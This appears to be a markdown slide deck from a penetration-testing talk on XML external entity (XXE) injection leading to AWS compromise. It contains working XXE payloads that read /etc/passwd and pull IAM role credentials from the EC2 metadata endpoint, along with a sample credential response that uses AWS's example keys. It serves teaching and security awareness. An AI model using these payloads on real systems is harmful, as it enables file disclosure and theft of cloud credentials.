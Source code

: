 # XXE and AWS Compromise

---

## @fa[book] Background
![diagram](xxe-aws-compromise/assets/diagram1.png)

---

## @fa[code] XML Entities
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>

<foo>&xxe;</foo>
```

---

## @fa[file-signature] Pentest Report
![diagram](xxe-aws-compromise/assets/vuln1.png)

---

## @fab[aws] AWS Metadata
```xml
 <?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-iam-role" >
]>

<foo>&xxe;</foo>
```

`http://169.254.169.254/latest/meta-data/iam/security-credentials/ec2-iam-role`

---

## @fa[file-signature] Pentest Report
![diagram](xxe-aws-compromise/assets/vuln2.png)

---

## @fa[terminal] Metadata
```json
{
  "Code" : "Success",
  "LastUpdated" : "2019-07-01T12:11:43Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "AKIAIOSFODNN7EXAMPLE",
  "SecretAccessKey" : "wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY",
  "Token" : "************",
  "Expiration" : "2019-07-01T18:46:08Z"
}
```

---

## @fa[file-signature]Pentest Report
![diagram](xxe-aws-compromise/assets/vuln3.png)

---

## @fa[book] Summary
![stop it](https://media.giphy.com/media/l4Ki2obCyAQS5WhFe/giphy.gif)
